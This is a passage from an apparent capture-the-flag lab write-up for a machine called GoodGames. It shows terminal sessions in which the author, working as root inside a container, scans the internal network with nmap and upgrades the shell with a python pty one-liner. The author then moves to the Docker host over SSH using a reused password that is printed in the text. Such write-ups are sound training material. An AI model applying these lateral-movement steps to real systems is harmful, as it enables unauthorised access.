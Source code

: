 ```bash
ls
nmap
user.txt
root@3a453ab39d3d:/home/augustus# chmod +x nmap
chmod +x nmap
root@3a453ab39d3d:/home/augustus# ./nmap 172.19.0.2/24
./nmap 172.19.0.2/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2022-08-15 12:55 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.19.0.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000028s latency).
Not shown: 1205 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:D7:2B:35:73 (Unknown)

Nmap scan report for 3a453ab39d3d (172.19.0.2)
Host is up (0.000023s latency).
All 1207 scanned ports on 3a453ab39d3d (172.19.0.2) are closed
```

From the `nmap` scan, we can conclude that `172.19.0.1` should be the Docker host. Additionally, port 22 and 80 is open for `172.19.0.1`.

Now, we can try to `ssh` as `augustus` to `172.19.0.1`!

```bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
ssh augustus@172.19.0.1
Pseudo-terminal will not be allocated because stdin is not a terminal.
Host key verification failed.
```

Hmm.. it seems like we need to get a proper shell. Lets check if `python` or `python3` is available.

```bash
root@3a453ab39d3d:/home/augustus# which python
which python
/usr/local/bin/python
root@3a453ab39d3d:/home/augustus# which python3
which python3
/usr/local/bin/python3
```

Nice! Both `python` versions are available. Lets use `python3` to spawn a shell and then `ssh` as `augustus`.

```bash
root@3a453ab39d3d:/home/augustus# python3 -c 'import pty;pty.spawn("/bin/bash")'
<tus# python3 -c 'import pty;pty.spawn("/bin/bash")'
ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: superadministrator

Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
```
